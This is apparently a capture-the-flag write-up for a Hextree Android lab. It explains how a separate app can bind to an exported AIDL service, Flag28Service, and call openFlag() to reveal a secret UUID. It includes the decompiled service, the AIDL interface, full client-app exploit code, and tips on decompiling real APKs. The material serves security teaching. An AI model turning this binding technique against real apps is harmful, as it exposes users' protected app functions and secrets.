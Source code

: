 ```yaml
---
title: Flag28Service AIDL Binding Walkthrough (Hextree Lab)
description: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
summary: A step-by-step guide to reverse engineering and exploiting an exported Android AIDL-based bound Service from another app.
date: 2025-06-15  
tags:
- android  
- aidl  
- binder  
- reverse engineering 
- inter-process communication 
- hextree  
- penetration testing  
- android security  
read_time: 3 minute read
---
```


# Flag28Service AIDL Binding Walkthrough (Hextree Lab)

## 📌 Lab Objective

The goal of this Hextree challenge is to interact with an **exported bound Android service** (`Flag28Service`) from a different app (our attacking app) by leveraging **AIDL (Android Interface Definition Language)**. Once the AIDL interface is properly bound and invoked, a flag activity is launched containing a secret UUID.

---

## 🔍 Reconnaissance

Inspecting the AndroidManifest of the target app, we find this service:

```xml
<service
    android:name="io.hextree.attacksurface.services.Flag28Service"
    android:enabled="true"
    android:exported="true"/>
````

✅ The `android:exported="true"` line means any app on the device can bind to this service — if it knows how.

---

## 🧠 Understanding the Service Code

Here’s what `Flag28Service.java` does:

```java
public class Flag28Service extends Service {
    public static String secret = UUID.randomUUID().toString();
    private final IFlag28Interface.Stub binder = new IFlag28Interface.Stub() {
        @Override
        public boolean openFlag() throws RemoteException {
            return success();
        }

        public boolean success() {
            Intent intent = new Intent();
            intent.setClass(Flag28Service.this, Flag28Activity.class);
            intent.putExtra("secret", Flag28Service.secret);
            intent.addFlags(268468224);
            intent.putExtra("hideIntent", true);
            Flag28Service.this.startActivity(intent);
            return true;
        }
    };

    @Override
    public IBinder onBind(Intent intent) {
        Log.i("Flag28Service", Utils.dumpIntent(this, intent));
        return this.binder;
    }
}
```

* When `openFlag()` is called, it launches `Flag28Activity` with the `secret` in the intent.
* That function is exposed via **AIDL**.

---

## 🔧 Step-by-Step Exploit via AIDL

### 1. 🔎 Get the AIDL Definition

From decompiled code, we extract the AIDL interface:

```java
package io.hextree.attacksurface.services;

interface IFlag28Interface {
    boolean openFlag();
}
```

Create this file in your client app:

```
app/src/main/aidl/io/hextree/attacksurface/services/IFlag28Interface.aidl
```

> 📚 [AIDL Documentation](https://developer.android.com/guide/components/aidl)

Then rebuild the project. This will generate a stub interface your app can use to call the service.

### 2. 🏗️ Create a Client App to Bind to the Service

No special permission is needed to bind to exported services.

#### `HextreeActivity.java`

```java
public class HextreeActivity extends AppCompatActivity {
    boolean isBound = false;
    IFlag28Interface remoteservice;

    ServiceConnection connection = new ServiceConnection() {
        public void onServiceConnected(ComponentName name, IBinder service) {
            remoteservice = IFlag28Interface.Stub.asInterface(service);
            isBound = true;
            sendMessageToService();
        }

        public void onServiceDisconnected(ComponentName name) {
            isBound = false;
            remoteservice = null;
        }
    };

    public void sendMessageToService() {
        if (!isBound) return;
        try {
            remoteservice.openFlag();
        } catch (RemoteException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button attackButton = findViewById(R.id.attack);
        attackButton.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");
            bindService(intent, connection, Context.BIND_AUTO_CREATE);
        });
    }

    @Override
    protected void onDestroy() {
        if (isBound) {
            unbindService(connection);
            isBound = false;
        }
        super.onDestroy();
    }
}
```

#### Layout: `activity_main.xml`

```xml
<Button
    android:id="@+id/attack"
    android:layout_width="wrap_content"
    android:layout_height="wrap_content"
    android:text="Launch Flag Service" />
```

---

## 🧪 Testing the Attack

1. Install the vulnerable target app.
2. Install and run your client app.
3. Tap the button → it binds to the service.
4. Calls `openFlag()` → starts `Flag28Activity` with the flag.

🎉 You now have access to the secret UUID stored statically in the service.

---

## 🔐 Why This Works

* **AIDL** enables IPC in Android. If a service is exported and implements an AIDL interface, **any app can use it** — as long as it has the correct `.aidl` definition.
* The Binder framework ensures capability-based access, so possession of the IBinder gives you the power to call the methods.

---

## 📚 Resources

* [Android AIDL Guide](https://developer.android.com/guide/components/aidl)
* [Binder Internals (Google)](https://android.googlesource.com/platform/frameworks/native/+/refs/heads/main/cmds/servicemanager/README.md)
* [Binder IPC Deep Dive](https://dev.to/paulshen/android-ipc-binder-introduction-1e4c)
* Hextree CTF Labs – Android IPC + Reverse Engineering Challenges

---

## 🧠 Notes for Real-World Testing

* Always check for `exported=true` in the target app's `AndroidManifest.xml`.
* Decompile APKs using tools like jadx or apktool to extract `.aidl` files.
* Verify if the service performs security checks (e.g., caller package, signature).

---

## ✅ Summary

This lab demonstrates how exported AIDL-based services can become attack surfaces. By reverse engineering the `.aidl`, replicating it, and binding from your own app, you can trigger privileged flows like opening hidden activities or leaking secrets — all by using Binder IPC correctly.

> The power of Android IPC becomes a vulnerability when misconfigured.